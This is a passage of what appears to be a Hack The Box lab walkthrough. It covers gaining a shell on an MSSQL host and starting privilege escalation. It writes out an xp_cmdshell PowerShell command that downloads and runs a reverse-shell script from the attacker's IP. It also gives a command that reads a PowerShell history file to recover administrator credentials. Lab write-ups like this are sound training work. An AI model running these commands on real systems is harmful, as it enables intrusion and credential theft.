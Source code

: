   ![image](https://user-images.githubusercontent.com/29686845/131732473-9d48452d-9b91-4b77-a7d6-cacbaf26afa2.png)

  
  - If you are unfamiliar with nano please check out this link: https://linuxize.com/post/how-to-use-nano-text-editor/
  - Don't forget to make your script executable by using the chmod command below: 
  
![image](https://user-images.githubusercontent.com/29686845/131713651-dcb59f72-9e6c-4bb1-b80d-236fe5c328d3.png)

  - After we have our script made and changed it to executable we need to spin up a mini http server and use net cat to listen and we will run the following commands in two seperate termanls to do so. 
  
![image](https://user-images.githubusercontent.com/29686845/131714996-8a06b6dc-8e95-4acb-a5e3-f21e03d46f9a.png)
  
![image](https://user-images.githubusercontent.com/29686845/131731310-180ee8d5-e225-4777-b697-9a158d90a8f1.png)
  
  - Once we have our web server and our listening port we will type in the following command to upload or shell.py to the SQL server
  
  ![image](https://user-images.githubusercontent.com/29686845/131731436-9257971b-66f1-4712-8cc1-879f5c4fb16b.png)

      xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
  
  - If you're having issues double check the IP address of the command above and double check the IP address in your shell.ps1 script. 
    - you can use the ifconfig command to check your IP address along with your HTB Private IP address. 
  
  - We can use the following command to see if we have access to the windows command shell: 
  
  ![image](https://user-images.githubusercontent.com/29686845/132119514-8dd49617-45f2-4a88-b22f-c09aa0497320.png)

  - you will see a list of files in that directory.
    - The Command DIR is the windows equivilent of ls that linux uses. It is important to note that the operating system you are attacking will have a different syntax than what you may be accustome to. 
    - Here is a list of windows equivilent commands https://ftp.kh.edu.tw/Linux/Redhat/en_6.2/doc/gsg/ch-doslinux.htm
  
  - Now we have a shell! 
  
  - To recap we found the user credentials and used them to connect to a SQL server where we could spawn a shell that we can use to run more commands. Next we are going to work on gaining privileged user access or gain access to an administrator account. 
  
# Step 4: Privilege Escalation
  
  - We will check the following directory and look at the ConsoleHost_history.txt

          type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
  
 ![image](https://user-images.githubusercontent.com/29686845/132119928-a7e491d7-e9ad-4ea7-9075-5654f847bccb.png)

  - As you can see we have found the administrator set of credentials. 
  